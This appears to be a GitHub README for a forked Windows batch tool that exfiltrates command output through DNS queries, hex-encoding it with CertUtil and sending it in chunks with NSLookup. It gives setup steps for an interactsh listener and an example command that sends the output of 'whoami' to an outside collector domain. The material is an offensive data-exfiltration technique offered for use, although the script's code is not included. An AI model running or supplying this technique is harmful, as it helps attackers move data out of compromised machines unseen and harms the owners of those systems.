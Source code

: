 # DNS Exfiltrator via Hex

This is a fork from Ivan Šincek. I modified the script to work with Hex encoding instead of Base64. The first parameter, the command, doesn't need to be encoded.

Exfiltrate data with DNS queries in Hex. Based on CertUtil and NSLookup.

Command output will be encoded in Hex with CertUtil and exfiltrated in chunks up to 63 characters per query with NSLookup.

## How to Run

Download, unpack, give necessary permissions, and run the latest [interact.sh](https://github.com/projectdiscovery/interactsh/releases) client.

```fundamental
chmod +x interactsh-client

./interactsh-client -dns-only -json -o interactsh.json
```

Open the Command Prompt where you saved the batch script and run the following command:

```fundamental
dns-exfil-hex.bat whoami xyz.oast.online
```
